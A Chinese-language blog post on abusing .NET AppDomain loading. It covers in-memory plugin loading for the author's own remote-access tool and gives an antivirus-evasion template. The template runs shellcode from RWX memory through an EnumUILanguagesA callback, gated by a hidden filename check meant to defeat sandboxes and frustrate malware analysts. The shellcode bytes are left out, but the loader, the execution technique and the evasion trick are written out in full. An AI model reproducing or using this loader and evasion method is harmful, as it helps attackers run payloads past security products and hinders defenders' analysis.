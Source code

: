 ```yaml
---
title: 一种利用Appdomain特性实现隐蔽的反沙箱分析
date: 2023-2-17 09:29:19
categories: 
- .Net
tags:
- .Net
- Appdomain
- Anti-VM
---
```

这次是标题党了，主要还是记录一下自己在使用Appdomain中遇到的一点小坑

# 前情提要

我一直很喜欢使用C#制作一些工具，或者制作一些技术的poc，在测试杀软对行为的拦截时为了避免频繁文件落地，都是使用对一个C#远控添加插件的方式测试的。

最常用的插件加载方式就是Assembly.Load了，使用过的都会发现这种方式可以加载不能卸载，用Procexp之类的软件可以很方便的查看进程内的Assembly。虽然临时测试并不是太需要保证自身进程干净，但是还是想要解决一下这个问题。

# 解决过程

在未提供接口卸载Assembly的情况下，最合适的方法是在新Appdomain中加载Assembly，并在使用后直接卸载Appdomain。

```csharp
var appDomain = AppDomain.CreateDomain("Demo");
var asm = appDomain.LoadFrom("test.dll");
asm.EntryPoint.Invoke(null, null);

AppDomain.Unload(appDomain);
```

但是如果第二行改为使用Load函数，从内存中加载，就有可能发现FileNotFoundException的问题，这里就为后面的坑做下了铺垫，但是我没有在这里注意到这个问题。通过谷歌搜索发现了CreateInstanceAndUnwrap这个好东西，同时也想起来了之前收藏的文章[https://rastamouse.me/net-reflection-and-disposable-appdomains/](https://rastamouse.me/net-reflection-and-disposable-appdomains/)，所以参考文中实例，很快我就完成了自己远控中的加载执行的部分，并且完美通过调试

```csharp
public class ShadowRunner : MarshalByRefObject
{
    public string[] LoadAssembly(byte[] assembly, string[] args, string sMethod)
    {
        var asm = Assembly.Load(assembly);
        var test = new string[] { };
        foreach (var type in asm.GetTypes())
            foreach (var method in type.GetMethods())
                if (method.Name.ToLower().Equals(sMethod.ToLower()))
                    test = (string[])method.Invoke(null, new object[] { args });
        return test;
    }
}

public static void loadAppDomainModule(string sMethod, string sAppDomain, byte[] bMod)
{
    var oDomain = AppDomain.CreateDomain(sAppDomain, null, null, null, false);
    var runner = (ShadowRunner)oDomain.CreateInstanceAndUnwrap(typeof(ShadowRunner).Assembly.FullName,
        typeof(ShadowRunner).FullName);
    var result = runner.LoadAssembly(bMod, new[] { "test" }, sMethod);
    return;
}
```

但是在实际使用过程中，把远控的client端转为shellcode，并随便套了一个加载器，之后就出现了问题，当时我就按照习惯把问题归为.Net历史遗留问题或者donut的实现问题，有可能是自己加载的CLR环境出现了问题，前后调试对比了很久也没有找出问题所在。

还是后面想起来错误是FileNotFoundException，就看错误提示感觉很不合理，进而用Procmon跟了下，发现Appdomain加载程序集居然有一套类似dll搜索的搜索顺序，会在自身目录以及默认目录搜索文件，未发现文件就报错。

可以说是完全断了这种操作的Assembly去做一些转化再免杀的方案，如果真想搞的话，可以hook一下自己进程的NtCreateFile等函数，让进程认为有这个文件嘛

# 附带的利用

坏消息是，动态加载卸载这个东西很难去做武器化了，好消息是，我们知道了Appdomain找不到文件名对应的文件就不加载

所以就制作了一个简单的免杀模板（此处只展示加载部分）

```csharp
using System;
using System.Drawing;
using System.Linq;
using System.Management;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace test
{
    class Program
    {
        [DllImport("ntdll.dll")]
        private static extern bool RtlMoveMemory(IntPtr addr, byte[] pay, uint size);
        [DllImport("kernelbase.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, int flAllocationType, int flProtect);
        [DllImport("kernel32.dll")]
        private static extern bool EnumUILanguagesA(IntPtr lpUILanguageEnumProc, uint dwFlags, IntPtr lParam);

        public static void Main(string[] args)
        {
            AppDomain tempDomain = AppDomain.CreateDomain("Temp");
            tempDomain.DoCallBack(Load);
        }

        private static void Load()
        {
            byte[] shellcode = { ...};
            IntPtr p = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x00001000, 0x0040);
            RtlMoveMemory(p, shellcode, (uint)shellcode.Length);
            EnumUILanguagesA(p, 0, IntPtr.Zero);
        }
    }
}
```

编译后如果文件名与编译时设置的程序集名称不同的话，就无法执行，但是文件中不包含任何判断文件名的部分。

# 总结

Appdomain加载卸载Assembly的思路我目前还没能完善，有待解决，但是顺路发现了一个比较隐蔽的小技巧，对于样本分析上会有一定的干扰作用，可以配合其他方法使用。（如故意添加一个判断自身文件名是否符合的函数，在分析人员用dnspy修改删除后发现还是文件名不符合执行不了一定会一脸懵逼，哈哈）
